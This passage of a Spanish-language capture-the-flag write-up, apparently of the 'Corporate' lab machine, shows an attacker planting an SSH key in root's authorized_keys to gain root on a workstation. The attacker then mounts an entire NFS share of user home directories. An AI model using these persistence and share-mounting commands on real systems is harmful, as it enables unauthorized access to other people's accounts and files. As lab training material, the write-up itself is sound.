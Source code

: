 > Tuve que usar el rootfs de https://github.com/alpinelinux/docker-alpine/raw/97c57449282d97cfa1c0b64669aed9afbf08645a/x86_64/alpine-minirootfs-3.19.0-x86_64.tar.gz ya que la imagen oficial más reciente que descargaba y exportaba desde mi docker por algún motivo no funcionaba acá
{: .prompt-info }

El directorio `/home/` se ve muy vacio además de que el usuario sysadmin no parece tener nada interesante 

```bash
/mnt/home # ls -la
total 12
drwxr-xr-x    4 root     root          4096 Apr 18  2023 .
drwxr-xr-x   19 root     root          4096 Nov 27  2023 ..
drwxr-xr-x    3 root     root             0 Jul  9 23:49 guests
drwxr-x---    5 1000     1000          4096 Nov 28  2023 sysadmin
```

Sin embargo, ¿recuerdas que antes vimos que estaba el puerto NFS abierto en la máquina host?, pues parece que este directorio de home es una montura del directorio home ubicado en el equipo host en cuestión:

```bash
/mnt/home/sysadmin # mount
... [snip]
/etc/auto.home on /mnt/home/guests type autofs (rw,relatime,fd=7,pgrp=0,t
imeout=300,minproto=5,maxproto=5,indirect,pipe_ino=24084)
corporate.htb:/home/guests/gayle.graham on /mnt/home/guests/gayle.graham 
type nfs4 (rw,relatime,vers=4.2,rsize=524288,wsize=524288,namlen=255,hard
,proto=tcp,timeo=600,retrans=2,sec=sys,clientaddr=10.9.0.4,local_lock=non
e,addr=10.9.0.1)
... [snip]
```

Hay un software que se encarga de montar automáticamente el directorio home del usuario que se conecta a la workstation en cuestión, pero solo está montando el directorio del usuario que se conecta, ¿qué pasaria si en vez de, montamos todo el directorio de `guests`?

Vamos a colocarle una llave ssh autorizada al usuario root para acceder como este:

```bash
/mnt/root/.ssh # echo 'ssh-rsa AAAAB3NzaC1yc2EAA... [snip]' > authorized_keys
```

```bash
❯ ssh -i root.key root@10.9.0.4
root@corporate-workstation-04:~#
```

Ahora, montemos el directorio nfs en cuestión a `/mnt`

```bash
root@corporate-workstation-04:/# mount -t nfs corporate.htb:/home/guests /mnt
root@corporate-workstation-04:/# cd /mnt
root@corporate-workstation-04:/mnt# ls
abbigail.halvorson  erna.lindgren         mabel.koepp
abigayle.kessler    esperanza.kihn        marcella.kihn
adrianna.stehr      estelle.padberg       margarette.baumbach
ally.effertz        estrella.wisoky       marge.frami
america.kirlin      garland.denesik       michale.jakubowski
amie.torphy         gayle.graham          mohammed.feeney
anastasia.nader     gideon.daugherty      morris.lowe
annamarie.flatley   halle.keeling         nora.brekke
antwan.bernhard     harley.ratke          nya.little
arch.ryan           hector.king           oleta.gutmann
august.gottlieb     hermina.leuschke      penelope.mcclure
bethel.hessel       jacey.bernhard        rachelle.langworth
beth.feest          jammie.corkery        raphael.adams
brody.wiza          josephine.hermann     richie.cormier
callie.goldner      joy.gorczany          rosalee.schmitt
candido.hackett     julio.daniel          ross.leffler
```